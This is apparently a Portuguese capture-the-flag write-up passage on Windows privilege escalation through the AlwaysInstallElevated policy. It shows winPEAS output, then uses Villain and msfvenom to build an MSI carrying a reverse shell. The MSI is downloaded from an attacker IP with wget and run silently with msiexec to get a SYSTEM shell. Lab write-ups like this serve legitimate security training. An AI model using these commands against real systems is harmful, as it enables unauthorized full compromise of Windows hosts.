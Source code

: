 ## Privilege Escalation

    Para o privilege escalation podemos baixar o winpeas na máquina e ver o que ele nos traz.

    Após um tempo rodando o script, podemos encontrar o seguinte trecho no output:

```powershell
???????????? Checking AlwaysInstallElevated
?  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

    Com a política AlwaysInstallElevated habilitada é possível criarmos arquivos **.msi** e executarmos com permissão de system.

**Referência para o PrivEsc:** [Windows Privilege Escalation - AlwaysInstallElevated Policy - StefLan&#039;s Security Blog](https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/)

    Para criarmos um arquivo que executará um shell reversa usaremos o **msfvenom** e o **Villain** para criar a reverse shell (pode ser usado a shell do nishang também).

> Gerando shell com Villain

```python
Villain > generate os=windows lhost=tun0 encode
```

    O comando acima gera um reverse shell encodada com bas64 que será usada no msfvenom para criar o arquivo msi.

>    Gerar MSI

```bash
msfvenom -f msi -p windows/exec CMD="[Villain Reverse Shell]" > shell.msi
```

    Com o arquivo gerado, podemos baixá-lo na máquina e executar.

> Comando para PrivEsc:
> 
> ```powershell
> msiexec /quiet /qn /i FILE.msi
> ```

    Download e execução:

```powershell
PS C:\Users\Phoebe\Desktop> wget http://10.10.14.85/shell.msi -OutFile shell.msi
PS C:\Users\Phoebe\Desktop> msiexec /quiet /qn /i shell.msi
```

    Reverse Shell:

![](screenshots/root_shell.png)
